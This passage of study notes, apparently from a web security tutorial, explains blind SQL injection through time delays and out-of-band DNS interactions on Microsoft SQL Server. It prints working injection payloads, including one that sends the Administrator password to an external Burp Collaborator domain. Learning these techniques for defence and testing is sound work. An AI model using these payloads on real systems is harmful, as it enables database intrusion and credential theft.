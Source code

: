 retrieve data in the way already described, by systematically testing one character at a time:

`'; IF (SELECT COUNT(username) FROM Users WHERE username = 'Administrator' AND SUBSTRING(password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

> Note: There are various ways of triggering time delays within SQL queries, and different techniques apply on different types of database 

---


#### Exploiting blind SQL injection using out-of-band (OAST) techniques

Now, suppose that the application carries out the same SQL query, but does it asynchronously. 
- The application continues processing the user's request in the original thread, 
- and uses another thread to execute an SQL query using the tracking cookie. 
- The query is still vulnerable to SQL injection, 
- however none of the techniques described so far will work: 
- the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query.


In this situation, exploit the blind SQL injection vulnerability by triggering **out-of-band network interactions** to a system that you control. 
- As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time.
- But more powerfully, data can be exfiltrated directly within the network interaction itself.

A variety of network protocols can be used for this purpose, 
- typically the most effective is DNS (domain name service), because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.


The easiest and most reliable way to use out-of-band techniques is using **Burp Collaborator**. 
- This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. 
- Support for Burp Collaborator is built in to Burp Suite Pro


The techniques for triggering a DNS query are highly specific to the type of database being used. 
- On Microsoft SQL Server, 
  - `'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`
  - to cause a DNS lookup on a specified domain
  - cause the database to perform a lookup for the following domain:
  - `0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

You can use Burp Suite's Collaborator client to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur.


Having confirmed a way to trigger out-of-band interactions, then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:

`'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`

